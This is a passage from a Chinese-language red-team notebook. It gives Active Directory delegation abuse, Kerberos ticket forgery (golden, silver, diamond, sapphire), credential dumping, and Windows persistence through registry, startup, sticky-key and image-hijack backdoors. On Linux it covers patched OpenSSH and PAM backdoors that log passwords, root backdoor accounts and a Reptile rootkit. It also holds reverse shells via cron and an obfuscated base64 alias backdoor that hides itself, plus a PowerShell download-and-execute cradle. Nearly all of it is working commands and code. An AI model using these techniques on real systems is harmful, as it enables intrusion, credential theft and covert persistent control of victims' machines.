      python addcomputer.py xiaodi8.com/web2016:Xiaodi12345 -method LDAPS -computer-name test01\$ -computer-pass Passw0rd -dc-ip 192.168.139.11

      \# 使用bloodyAD工具创建机器账户

      python bloodyAD.py -d redteam.lab -u web2016 -p 'Xiaodi12345' --host 192.168.139.11 addComputer test01 'Passw0rd'

      \# 使用PowerMad工具创建机器账户

      powershell Set-ExecutionPolicy Bypass -Scope Process

      powershell Import-Module .\Powermad.ps1;New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)

  - 修改委派属性

    - 修改目标主机的资源委派属性（data）

      msds-allowedtoactonbehalfofotheridentity

      获取新增账户的objectsid

      powershell Import-Module .\PowerView.ps1;Get-NetComputer serviceA -Properties objectsid

      修改datax主机委派属性：

      powershell import-module .\powerview.ps1;$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1695257952-3088263962-2055235443-1124)";$SDBytes = New-Object byte[] ($SD.BinaryLength);$SD.GetBinaryForm($SDBytes, 0);Get-DomainComputer datax| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

      验证和清除委派属性：

      powershell import-module .\powerview.ps1;Get-DomainComputer data -Properties msds-allowedtoactonbehalfofotheridentity

      powershell import-module .\powerview.ps1;Set-DomainObject data -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose

  - 请求票据导入利用

    - 利用serviceA申请访问data主机cifs服务票据：

      python getST.py -dc-ip 192.168.3.33 xiaodi.local/serviceA\$:123456 -spn cifs/datax.xiaodi.local -impersonate administrator

      导入票据到内存：

      mimikatz kerberos::ptc administrator.ccache

      连接利用票据：

      shell dir \\data.xiaodi.local\c$

###### Acount Operators组用户

- 利用条件-获得组内用户账号

  - 查询Acount Operators组成员：

    shell adfind.exe -h 192.168.3.33:389 -s subtree -b CN="Account Operators",CN=Builtin,DC=xiaodi,DC=local member

- 具体利用同上

###### 结合HTLMRelay

- 利用思路：
  - 绕过NTLM MIC校验+打印机漏洞+NTLM Relay+基于资源的约束性委派组合攻击

- 利用条件：

  - 能创建机器账户

  - 目标开启打印机服务

#### dysnc

#### asreo

#### kerberos

### 工作组

- ARP欺骗
  - 单向欺骗断网
    - 目的：目标机IP（arp -a）和MAC地址
    - 源：目标网关IP和随意MAC地址
  - 双写欺骗绕过绑定断网
    - 第一个arp包
      - 目的：目标机IP和MAC地址
      - 源：目标网关IP和攻击机MAC地址（ipconfig /all）
    - 第二个arp包
      - 目的：目标网关IP和MAC地址
      - 源：目标机IP和攻击机MAC地址
  - 双写欺骗绕过截取数据
    - arpspoof.exe 192.168.1.8（目标IP，此处为手机IP）
    - 然后即可获取目标数据流量

### Linux

- 爆破密钥

- 获取密钥

  - 查看敏感文件

    ~/.ssh/config #配置 ssh 连接相关参数的配置文件

    ~/.ssh/known_hosts  # 该服务器所有登录过的服务器的信息

    ~/.bash_history # 通过历史命令看该服务器中有没有使用ssh私钥去连接服务器

  - 搜索含有SSH凭证文件

    grep -ir "BEGIN RSA PRIVATE KEY" /*

    grep -ir "BEGIN DSA PRIVATE KEY" /*

    grep -ir "BEGIN OPENSSH PRIVATE KEY" /*

- 寻找密钥对文件：

  通过**历史命令**看看有没有连接过主机采用的文件

  通过**搜索内容**查看哪些符合密钥对文件的特征

  通过查看**敏感文件**中的配置型信息获取文件

## 权限维持

### 内网AD域

#### SSP注入

- AD域

  - privilege::debug

  - misc::memssp

- 查看账号密码

  - C:\Windows\System32\mimilsa.log 记录登录的账号密码

- 技术总结：

  攻防实战中，靶机很难会重启，攻击者重启的话风险过大，

  因此可以在靶机上把两个方法相互结合起来使用效果比较好，

  尝试利用把生成的日志密码文件发送到内网被控机器或者临时邮箱。

#### SID历史后门

- 获取某用户SID属性：
  - Import-Module ActiveDirectory
  - Get-ADUser webadmin -Properties sidhistory
- 给予某用户administrator属性：
  - privilege::debug
  - sid::patch
  - sid::add /sam:webadmin /new:administrator
- 测评给与前后的DC访问权限（目标机）：
  - dir \\192.168.3.21\c$
- 技术总结：
  - 把域控管理员的SID加入到 其他某个恶意的域账户的SID History中，然后，这个恶意的（我们自己创建的）域账户就可以域管理员权限访问域控了，不修改一直存在。

#### Skeleton钥匙

- 连接DC后，DC注入lsass进程
  - mimikatz：
  - privilege::debug
  - misc::skeleton
- 重新测试域内某个用户与DC通讯
  - net use \\owa2010cn-god\ipc$ "mimikatz" /user:god\administrator
  - dir \\owa2010cn-god\c$
- 技术总结：
  - 因为Skeleton Key技术是被注入到lsass.exe进程的，所以它只存在内存中，如域控重启，万能密码将失效。

#### DSRM还原后门

- 获取dsrm及krbtgt的NTLM hash（AD域）
  - privilege::debug
  - lsadump::lsa /patch /name:krbtgt
  - token::elevate
  - lsadump::sam
- dsrm&krbtgt&NTLM hash同步（AD域）
  - ntdsutil：打开ntdsutil
  - set DSRM password：修改DSRM的密码
  - sync from domain account 域用户名字：使DSRM的密码和指定域用户的密码同步
  - q(第1次)：退出DSRM密码设置模式
  - q(第2次)：退出ntdsutil
  - 修改dsrm登录方式
    - New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD

- 利用PTH传递攻击
  - privilege::debug
  - sekurlsa::pth /domain:owa2010cn-god /user:administrator /ntlm:b097d7ed97495408e1537f706c357fc5
  - dir \\owa2010cn-god\c$

- 技术总结：
  - 利用系统自带机制模式DSRM，修改DSRM默认登录方式和属性，通过其同步krgtgt进行PTH攻击，实现持续化控制，但适用于系统=>windows server2008。每个域控制器都有本地管理员账号和密码（与域管理员账号和密码不同）。DSRM账号可以作为一个域控制器的本地管理员用户，通过网络连接域控制器，进而控制域控制器。

#### 票据

##### 黄金票据

- 前提-获得sid、nthash、aes256和或aes128（对于dc上）

  - privilege::debug

    lsadump::lsa /inject /name:krbtgt

    wmic useraccount get Caption,sid

- 删除票据

  - kerberos::purge

- 注入票据

  - \#NTLM

    mimikatz#kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt

    \#aes256

    mimikatz#kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt

    \#aes128

    mimikatz#kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes128:c7ae2a311bdd5803646f9a98351c31e6 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt

##### 白银票据

- 前提-获得目标机hostname、sid、nthash

  - privilege::debug

    sekurlsa::logonpasswords（找到对应目标机的nthash）

- 注入白银票据

  - kerberos::golden /sid:S-1-5-21-202412995-3582062751-167045153 /domain:rootkit.org /target:SRV-WEB-KIT.rootkit.org /service:cifs /rc4:d285659bb8946c7ca26391b24a6ef567 /user:1111 /ptt

##### 钻石票据

- 前提-普通用户账号密码、krbtgt的aes256

  - privilege::debug

    lsadump::dcsync /domain:god.org /user:krbtgt

- 请求ticket

  - Rubeus.exe asktgt /aes256:5a75bb9a4fc4453c66621a54af111884f45bbca6365bf4d81bc059f31e708827 /user:webadmin /password:admin!@#45 /domain:god.org /dc:owa2010cn-god.god.org /ptt /nowrap

- 注入钻石票据

  - Rubeus.exe asktgs /ticket:$ticket /service:cifs/owa2010cn-god.god.org /ptt /nowrap

##### 蓝宝石票据

- 前提-普通用户账号密码，目标机sid，krbtgt的aesKey或nthash
  - lsadump::dcsync /domain:rootkit.org /user:krbtgt
- 注入票据
  - python ticketer.py -request -impersonate 'administrator' -domain 'rootkit.org' -user 'micle' -password 'Admin12345' -aesKey '3e65833fc9930ea83015501ec30c161da401faf6cfed9.....' -domain-sid 'S-1-5-21-3759881954-2993291187-3577547808' -nthash 'c3d5042c67ef5f461d0ba6ecdd9ea449' 'xiaodi'
- 连接用户
  - kerberos::ptc xiaodi.ccache

#### 差异

黄金票据：能控制所有服务协议资源，但容易被安全设备捕获（伪造票据）

白银票据：只能控制指定服务协议资源，但不容易被安全设备捕获（伪造票据）

钻石票据：利用条件增多，权限维持更持续，更不容易被安全设备捕获（真实票据）

蓝宝石票据：利用条件增多，权限维持更持续，更难被安全设备捕获（真实票据）

### Windows主机后门

- 主要思路是修改注册表

#### 自启动

- 自启动路径加载-将shell文件放在以下目录

  C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

- 自启动服务加载

  - 创建ServiceTest 服务
    - sc create ServiceTest binPath= C:\8888.exe  start= auto
  - 删除服务
    - sc delete ServiceTest

- 自启动注册表加载

  - -当前用户键值

    HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 

  - -服务器键值（需要管理员权限）

    HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 

  - -添加启动项

    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\8888.exe"

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "backdoor" /t REG_SZ /F /D "C:\8888.exe"

- 计划计时任务-定时执行命令，可选择执行频率

  - schtasks /create /tn "RunXD" /tr "C:\8888.exe" /sc daily /st 12:50

- 组策略bat

  - 使用gpedit.msc

  - 用户配置--》Windows设置--》脚本登录

    - 浏览修改bat文件

    - 文件内容为:

      - cmd C:\8888.exe

        C:\8888.exe

    

#### 粘滞键后门

- 粘滞键位置：
  - c:\windows\system32\sethc.exe
- 修改命令将setch命令替换为cmd
  - 修改权限：takeown /f C:\Windows\System32\sethc.exe
  - 移动备份：move sethc.exe sethc1.exe
  - 替换劫持：copy cmd.exe sethc.exe

#### 文件映像劫持

- 执行notepad成cmd或后门
  - REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe /c calc"
- 配合GlobalFlag隐藏：在运行中执行目标命令
  - reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
  - reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
  - reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\8888.exe"

#### 其它

- 用户登录或远程终端登录
  - REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\system32\userinit.exe,C:\8888.exe,"
- 屏幕保护
  - reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\8888.exe" /f
- Logon Scripts登录
  - 本地目录
    - reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\8888.exe"
  - 远程下载
    - reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.13.143:80/a'))\""

### Linux

#### OpenSSH后门

- 环境准备：
  - yum -y install openssl openssl-devel pam-devel zlib zlib-devel    
  - yum -y install gcc gcc-c++ make                                   
  - wget http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz
  - wget https://mirror.aarnet.edu.au/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
  - tar -xzvf openssh-5.9p1.tar.gz 
  - tar -xzvf 0x06-openssh-5.9p1.patch.tar.gz
  - cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1
  - cd openssh-5.9p1 && patch < sshbd5.9p1.diff
- 编辑密码：
  - vim includes.h
  - 177 #define ILOG "/tmp/ilog"#ILOG是别人用ssh登录该主机记录的日志目录
  - 178 #define OLOG "/tmp/olog"#OLOG是该主机用ssh登录其他主机记录的日志目录 
  - 179 #define SECRETPW "**password**"#万能密码
  - 180 #endif /* INCLUDES_H */
- 安装编译：
  - ./configure --prefix=/usr  --sysconfdir=/etc/ssh  --with-pam  --with-kerberos5  && make && make install
  - service sshd restart   #重启sshd服务
  - systemctl status sshd.service #查看ssh启动状态

- ssh连接
  - ssh 用户名@IP
  - ssh yjw858857136@192.168.1.8

#### PAM启用替换

1、获取目标系统所使用的PAM版本，下载对应版本的pam版本

2、解压缩，修改pam_unix_auth.c文件，添加万能密码

3、编译安装PAM

4、编译完后的文件在：modules/pam_unix/.libs/pam_unix.so，复制到/lib64/security中进行替换，即使用万能密码登陆，将用户名密码记录到文件中。

- 配置环境

  - 关闭selinux setenforce 0
  - 查询版本 rpm -qa | grep pam
  - wget http://www.linux-pam.org/library/Linux-PAM-1.1.8.tar.gz
  - tar -zxvf Linux-PAM-1.1.8
  - yum install gcc flex flex-devel -y

- 修改配置：

  留PAM后门和保存SSH登录的账号密码

  - 修改 Linux-PAM-1.1.8/modules/pam_unix/pam_unix_auth.c

    /* verify the password of this user */

    retval = _unix_verify_password(pamh, name, p, ctrl);

    if(strcmp("**password**",p)==0){return PAM_SUCCESS;}    //后门密码

    ​    if(retval == PAM_SUCCESS){    

    ​           FILE * fp;    

    ​           fp = fopen("/tmp/.sshlog", "a");//SSH登录用户密码保存位置

    ​           fprintf(fp, "%s : %s\n", name, p);    

    ​           fclose(fp);} 

    name = p = NULL;

     

    AUTH_RETURN;

- 编译安装：

  - ./configure && make
  - -备份复制：
  - 备份原有pam_unix.so,防止出现错误登录不上
  - 复制新PAM模块到/lib64/security/目录下 
  - cp /usr/lib64/security/pam_unix.so /tmp/pam_unix.so.bakcp
  - cd Linux-PAM-1.1.8/modules/pam_unix/.libs
  - cp pam_unix.so /usr/lib64/security/pam_unix.so

- ssh连接

  - ssh 用户名@IP
  - ssh yjw858857136@192.168.1.8

  

- 配合软链接

  - 在sshd服务配置启用PAM认证的前提下，PAM配置文件中控制标志为sufficient时，只要pam_rootok模块检测uid为0（root）即可成功认证登录。
  - SSH配置中开启了PAM进行身份验证
  - 查看是否使用PAM进行身份验证：
  - cat /etc/ssh/sshd_config|grep UsePAM
  - ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
  - ssh yjw858857136@192.168.1.8 -p 8888 密码随意输入即可登录

#### 密钥对

- 利用前提-开启密钥对支持：
  - vim /etc/ssh/sshd_config-开启以下配置
    - RSAAuthentication yes
    - PubkeyAuthentication yes
    - AuthorizedKeysFile .ssh/authorized_keys
- 攻击机生成本地密钥
  - ssh-keygen -t rsa #三次回车
  - id_rsa : 私钥
  - id_rsa.pub : 公钥
  - cat id_rsa.pub 将内容复制到目的机的authorized_keys
- 复制攻击机公钥到目的机
  - cd /root/.ssh/
  - vim authorized_keys(id_rsa.pub内容)
  - chmod 600 authorized_keys
- 攻击机直接用ssh协议连接目的机

#### 后门账号

- 添加账号test1，设置uid为0，密码为123456
  - useradd -p `openssl passwd -1 -salt 'salt' 123456` test1 -o -u 0 -g root -G root -s /bin/bash -d /home/test1

#### Cron后门

- 目标机编辑后门反弹

  - vim /etc/.xiaodi.sh
  - bash -i >& /dev/tcp/192.168.1.8/3333 0>&1
  - chmod +x /etc/.xiaodi.sh

- 目标机添加定时任务

  - vim /etc/crontab
  - */1 * * * * root /etc/.xiaodi.sh

- 攻击机监听

  - nc -lvvp 3333

- strace后门

  strace是一个动态跟踪工具，它可以跟踪系统调用的执行。

  我们可以把他当成一个键盘记录的后门，来扩大我们的信息收集范围

- 记录sshd明文

  - (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

- 每次登录后可使用以下命令查看

  - grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log

- 记录sshd私钥

  - (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 4096 2> /tmp/.sshd.log &)
  - grep 'PRIVATE KEY' /tmp/.sshd.log

- alias后门

  alias命令的功能：为命令设置别名

- 替换例子

  - 定义：alias ls='ls -al'
  - 删除：unalias ls
  - 每次输入ls命令的时候都能实现ls -al

- 简单-将ls替换为ls+反弹shell命令：

  - alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.1.7/4444 0>&1; };alerts'

- 升级：

  - 使用python编译编码后的反弹shell命令
    - alias ls='alerts(){ ls $* --color=auto;python3 -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xLjciLCA5OTk5KSkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDApCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAxKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMikKICAgICAgICBwID0gc3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsICItaSJdKQogICAgZXhjZXB0IEV4Y2VwdGlvbiBhcyBlOgogICAgICAgIGV4aXQoKQ=='\'')))";};alerts'
  - alias unalias='alerts(){ if [ $# != 0 ]; then if [ $* != "ls" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};alerts'
  - alias alias='alerts(){ alias "$@" | grep -v unalias | sed "s/alerts.*lambda.*/ls --color=auto'\''/";};alerts'

- 持久化+隐藏：重启依旧生效

  - vim /etc/upload
  - vim ～/.bashrc
  - if [ -f /etc/upload ]; then
  - . /etc/upload
  - fi

## Rootkit后门

- 在目标机上传控制的Rootkit后门

### Window

### Linux

- 目标机安装命令

  - cd Reptile-2.0/ 

  - chmod +x ./setup.sh

  - ./setup.sh install 

- 隐藏目标文件he

  - 命名文件时代入reptile，如 reptile_shell

- 隐藏shell进程

  - ps -ef 查看shell进程PID
  - /reptile/reptile_cmd hide PID

- 隐藏外连ip

  - netstat -anpt
  - /reptile/reptile_cmd tcp IP port hide

- 其中还可以使用进阶的client连接

  - 首先在目标机安装时将reverse shell设为控制端IP
  - 在控制端安装client

  
